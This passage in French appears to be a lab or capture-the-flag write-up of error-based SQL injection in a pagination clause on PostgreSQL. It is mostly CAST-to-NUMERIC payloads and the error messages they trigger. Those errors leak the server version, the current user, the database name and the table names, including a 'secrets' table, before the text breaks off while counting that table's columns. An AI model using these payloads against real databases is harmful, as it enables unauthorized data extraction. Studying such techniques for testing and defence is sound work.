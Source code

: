 ```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « PostgreSQL 15.7 (Debian 15.7-0+deb12u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit »
```

Récupération de l'utilisateur PostgreSQL :&#x20;

```sql
(CAST((SELECT CURRENT_USER) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « sql_injection_in_pagination_clauses »
```

Récupération du nom de la base de données :&#x20;

```sql
(CAST((SELECT CURRENT_CATALOG) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « sql_injection_in_pagination_clauses_database »
```

Récupération du nombre de tables :&#x20;

```sql
(CAST((SELECT COUNT(tablename) FROM pg_tables WHERE schemaname = 'public') || '-' AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « 2- »
```

Récupération des noms des tables :&#x20;

```sql
(CAST((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « users »
```

```sql
(CAST((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1) AS NUMERIC))
```

```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « secrets »
```

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
(CAST((SELECT COUNT(a.attname) FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped) || '-' AS NUMERIC))
```
